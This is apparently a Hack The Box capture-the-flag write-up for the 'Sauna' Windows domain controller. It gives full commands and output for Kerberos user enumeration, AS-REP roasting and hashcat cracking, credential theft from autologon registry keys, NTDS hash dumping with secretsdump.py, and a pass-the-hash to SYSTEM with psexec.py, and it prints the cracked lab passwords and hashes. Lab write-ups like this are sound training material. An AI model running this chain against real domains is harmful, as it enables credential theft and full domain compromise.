


# HTB - Sauna

## Overview



A fairly easy Windows machine that requires a little 'outside the box' thinking in order to get the initial foothold.  After that, simple enumeration will give everything else that is needed.

## Useful Skills and Tools

### Useful [Impacket](https://github.com/SecureAuthCorp/impacket) Scripts

#### psexec.py

* You can use `psexec` to pass-the-\(NT\)hash to get system privileges.  A valid administrator account username and hash are needed.
* `sudo python3 psexec.py -hashes :<password_hash> Administrator@10.10.10.175` 

#### secretsdump.py

* Use this to dump password hashes from `NTDS.DIT` from a domain server.  Requires valid user credentials.  
* `python3 ./secretsdump.py <domain_name>/<username>@10.10.10.175` 
* Adding the flag `-just-dc-ntlm` will make it dump only the Lanman and NT hashes.

#### GetNPUsers.py

* Extracts the Kerberos `krb5asrep` hashes for users from the domain controller.  This requires a valid `DOMAINNAME/username` pair to run.  Will only extract hashes for users that do not require Kerberos pre-authentication. 
* `python3 GetNPUsers.py -outputfile <out_file> -format hashcat -usersfile <username_file> -no-pass -dc-ip 10.10.10.175 <domain_name>/<user_name>`
* In this example the output will be in hashcat format.

### Extracting Windows Auto-logon credentials with `reg query`

The command `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"` will output any stored Windows Auto-logon credentials.

### Using `hashcat` to crack Kerberos hashes

* In order to crack `krb5asrep` type hashes the `-m 18200` option is needed.
* `hashcat -m 18200 -a 0 <input_file> <wordlist> --force`

### Enumerating valid usernames through `kerberos` using MetaSploit

In the Metasploit console the `auxiliary(gather/kerberos_enumusers)` tool enumerates valid users against Kerberos from a list.  This scanner also checks if each user has "pre-auth required" enabled.

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.175`. The options I regularly use are: `-p-`which is a shortcut which tells nmap to scan all ports, `-sC`  is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN`  saves the output with a filename of `<name>`.

```text
zweilos@kalimaa:~/htb/sauna$ sudo nmap -p- -sC -sV -oN sauna.nmap 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 14:07 EDT
Nmap scan report for 10.10.10.175
Host is up (0.14s latency).
Scanned at 2020-06-01 14:07:43 EDT for 553s
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-02 01:15:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
3269/tcp  open  tcpwrapped
| ssl-date: 
|_  ERROR: Unable to obtain data from the target
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
61610/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/1%Time=5ED544ED%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");

Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h04m02s
| nbstat: 
|_  ERROR: Name query failed: TIMEOUT
| smb-os-discovery: 
|_  ERROR: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
| smb-security-mode: 
|_  ERROR: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-02T01:18:23
|_  start_date: N/A
Final times for host: srtt: 137789 rttvar: 1734  to: 144725

Nmap done: 1 IP address (1 host up) scanned in 553.41 seconds
```

Lots of ports were open on this machine! Based on the plethora of related ports, it was fairly easy to guess that this machine was a Windows-based domain server.  

### ldapsearch enumeration

```text
zweilos@kalimaa:~/htb/sauna$ ldapsearch -H ldap://10.10.10.175:3268 -x -LLL -s sub -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20200601223827.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
uSNChanged: 53269
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAACAAAAAAAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAAGIU5
 hQDAAAAQL7gs8Yl7ESyuZ/4XESy7AmwAAAAAAAA1ARSFAMAAAA=
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
dc: EGOTISTICAL-BANK

dn: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL

dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Hmm... not much to go off from LDAP, though I was able to find one potential user named Hugo Smith \(unfortunately there was no Windows username to go with it.\)

### Egotistical Bank website


On port 80 I found a website hosted for Egotistical Bank.  Most of this site consisted of template pages with lots of lorem ipsum paragraphs and very little information.  One page caught my eye, however.



I found a list of potential users on the 'About Us' page under the "Meet The Team" heading.  Since these were potentially employees at Egotistical Bank I used some common username formats to turn these names into potential usernames, then proceeded to test if any of them were valid.  

```text
hugos
hugo.smith
hsmith
stevenk
steven.kerb
skerb
shaunc
shaun.coins
scoins
hugob
hugo.bear
hbear
bowiet
bowie.taylor
btaylor
sofied
sofie.driver
sdriver
ferguss
fergus.smith
fsmith
```

This was my list of possible usernames based on common business formats I have seen in the past.  There was also one user's name \(Hugo Smith\) that I had gotten from from `ldapsearch` that was not on the website, so I added it to the list as well.

## Road to User

### Finding user creds

Finding user credentials was pretty fast and straightforward for this machine, despite not having a lot of information to go on. I used my list of potential usernames and used the Metasploit module `auxiliary/gather/kerberos_enumusers` to check if any of these usernames were valid, and if they had Kerberos pre-authentication turned off. This setting is a security feature of Kerberos which gives protection against password-guessing brute force attacks.

```text
msf5 auxiliary(gather/kerberos_enumusers) > run
[*] Running module against 10.10.10.175

[*] Validating options...
[*] Using domain: EGOTISTICALBANK...
[*] 10.10.10.175:88 - Testing User: "hsmith"...
[*] 10.10.10.175:88 - KDC_ERR_PREAUTH_REQUIRED - Additional pre-authentication required
[+] 10.10.10.175:88 - User: "hsmith" is present
```

After running this scan, I only got back one hit for a valid username `hsmith`. I now had a valid username and the business format for other potential usernames . One oddity I noticed: the scan would crash Metasploit for some reason when it got to the name `fsmith` \(_I tried this multiple times with and without that name to be sure_\). I kept this username on the possibly valid list just in case.

```text
zweilos@kalimaa:~/impacket/examples$ python3 GetNPUsers.py -outputfile sauna.hash -format hashcat -usersfile /home/zweilos/htb/sauna/users -no-pass -dc-ip 10.10.10.175 EGOTISTICALBANK/hsmith

[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Since `fsmith` crashed Metasploit I was hoping that it was because there was something in the output that it didn't understand. I decided to use another script that would give the same information to me, but would also dump the Kerberos hashes for any users who did not require the pre-authentication check. I used the `GetNPUsers.py` tool from the Impacket python examples collection to try to get the `krb5asrep` hashes using . In order to pull these hashes you need a valid username in the format `DOMAINNAME/username`. Luckily I had the domain name from my early enumeration and a valid username that Metasploit had gotten from the domain controller. I set my output to be saved in hashcat format so I could use that tool to try to quickly crack the hash.

At first I thought that I was just getting back the same results as the Metasploit module until I counted the number of names that it was outputting results for. I realized that there was one result unaccounted for so I looked in the output directory and opened my output file `sauna.hash`to see if I had gotten any hits.  

```text
$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37
```

It contained the Kerberos hash for the user `fsmith`! I had been right in my hunch that it was still a valid username despite the odd Metasploit behavior earlier. 

I am not sure why `GetNPUsers.py` doesn't inform you when it finds a valid user and gets the hash, so pay attention to your output files! Next I fired up `hashcat` to try to crack the password hash.  The option `-m 18200` is the flag which tells `hashcat` that this is a `krb5asrep` type hash and `-a 0` makes it use the words straight from the specified wordlist without any mangling rules applied.

```text
zweilos@kalimaa:~/htb/sauna$ hashcat -m 18200 -a 0 sauna.hash ~/rockyou.txt --force

Dictionary cache built:
* Filename..: /home/zweilos/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921506
* Keyspace..: 14344384
* Runtime...: 6 secs

$krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d10168e316be0713c91cb16$422f07d5f637adc6c396d1999bca49283f7f24c0257ead111b9adf94c623a7247e8e7575905e1ed3978dbce3a7a2b2d293d7339bc80dd2df4154ac019f614809aed59536842505f726e48a0119a18c3bc66d31cfe424269592b558e2ffdd616e36b1f8fccb6e4e16c8a0d9c1b9b668db776d4c46a1fa2d5cd00e2a00c59f218425690286f2bb95b4336ae1edea8def1d3da3ebd1c496da4664c1ce6299b0370dd87219b23243ce47fd1272dd5e1f084305cf1732ce7c5084727a9199935b2bcb3198c17e3d84d339611150501ccf17ae4f16e4784172da981623ac96f14bfbf17cf4afb8df652c089e363f2f07562703db74106bd22179dd37:Thestrokes23

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$fsmith@EGOTISTICALBANK:30279f364d1016...79dd37
Time.Started.....: Tue Jun  2 16:14:24 2020 (52 secs)
Time.Estimated...: Tue Jun  2 16:15:16 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   203.5 kH/s (7.13ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10539008/14344384 (73.47%)
Rejected.........: 0/10539008 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Tiona172 -> Thelink

Started: Tue Jun  2 16:13:42 2020
Stopped: Tue Jun  2 16:15:18 2020
```

Including the time spent building the dictionary file and getting everything loaded, this hash took less than two minutes to be cracked using `hashcat`. The password for `fmsith` was apparently `Thestrokes23` \(to see it in the output above you have to scroll all the way to the right...the output shows it at the end of the hash string\).

### User.txt

Now that I had a username and password, I could try to log into the server using `evil-winrm`.  This tool connects to the Windows Remote Management service that is usually open on port 5985.

```text
zweilos@kalimaa:~/htb/sauna$ evil-winrm -i 10.10.10.175 -u fsmith 
Enter Password: Thestrokes23

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
egotisticalbank\fsmith S-1-5-21-2966785786-3096785034-1186376766-1105


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\FSmith\Documents>
```

Luckily for me `fsmith` was a member of the `Remote Management Users` group and I was able to log in.  Next I collected my hard-earned loot.

```text
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
1b5520b98d97cf17f24122a55baf70cf
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User `fsmith`

After running the command `whoami /all` my next step when gaining access as a new user is to try to do as much enumeration as possible.  The Windows Privilege Escalation Awesome Scripts \([Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)\) tool is a collection of scripts that make this enumeration extremely simple.  In this case, it made moving laterally to another user very easy to complete.  

```text
--Cut from WinPEAS.exe--

C:\Windows\System32\OpenSSH\
[+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultDomainName             :  35mEGOTISTICALBANK
    DefaultUserName               :  35mEGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

  [+] Home folders found(T1087&T1083&T1033)
    C:\Users\Administrator
    C:\Users\All Users
    C:\Users\Default
    C:\Users\Default User
    C:\Users\FSmith
    C:\Users\Public
    C:\Users\svc_loanmgr
```

Auto-logon is a terrible, terrible service that should never be used, but makes it convenient for users when they are the only ones who use a computer. As the name implies, Windows will automatically log the user on by caching their credentials.  I verified this output by looking up the registry key where this information is stored using the `reg query` command.  Auto-logon credentials are stored in the key`HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon`.  

```text
*Evil-WinRM* PS C:\Users\FSmith\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x303697c4
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

For some reason there was a discrepancy between the username of the account that had auto-logon enabled \(`svc_loanmanager`\), and the account that had a user folder on the machine \(`svc_loanmgr`\).  I decided to try logging in using `svc_loanmgr` since that was the name of the user's folder.

### Moving laterally to user `svc_loanmgr`

```text
zweilos@kalimaa:~/htb/sauna$ evil-winrm -i 10.10.10.175 -u svc_loanmgr
Enter Password: Moneymakestheworldgoround!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>whoami /all

USER INFORMATION
----------------

User Name                   SID
=========================== ==============================================
egotisticalbank\svc_loanmgr S-1-5-21-2966785786-3096785034-1186376766-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

If you have credentials you can use Impacket's `secretsdump.py` to try to dump password hashes. These hashes can then be used to either crack and retrieve the passwords or in a pass-the-hash attack.  

```text
zweilos@kalimaa:~/impacket/examples$ python3 ./secretsdump.py -just-dc-ntlm EGOTISTICALBANK/svc_loanmgr@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:21e6b7db7208776337bf12e6c910a32d:::
[*] Cleaning up...
```

After successfully extracting the password hash for the `Administrator` account I decided to practice doing a pass-the-hash attack \(I didn't attempt to crack the hashes to extract the passwords so I cannot say how long it might take!\).

### Getting a shell

The blog at [https://en.hackndo.com/pass-the-hash/](https://en.hackndo.com/pass-the-hash/) has a nice write-up on how and why pass-the-hash attacks work.  I used the `psexec.py` tool from Impacket's examples, though there are many tools for doing this attack against Windows.  

```text
zweilos@kalimaa:~/impacket/examples$ sudo python3 psexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff Administrator@10.10.10.175
Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file useqULkm.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service hsLI on 10.10.10.175.....
[*] Starting service hsLI.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Not only did this tool log me in, but it also elevated my privilege to `nt authority\system`!

### Root.txt

The final thing to do after gaining full control over this machine was to get my proof. 

```text
C:\Windows\system32>cat C:\users\administrator\desktop\root.txt

f3ee04965c68257382e31502cc5e881f
```

Thanks to [egotisticalSW](https://app.hackthebox.eu/users/94858) for creating this fun and easy Windows machine.  It offered a few chances to learn some new things while giving the opportunity to brush up on Windows enumeration skills.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

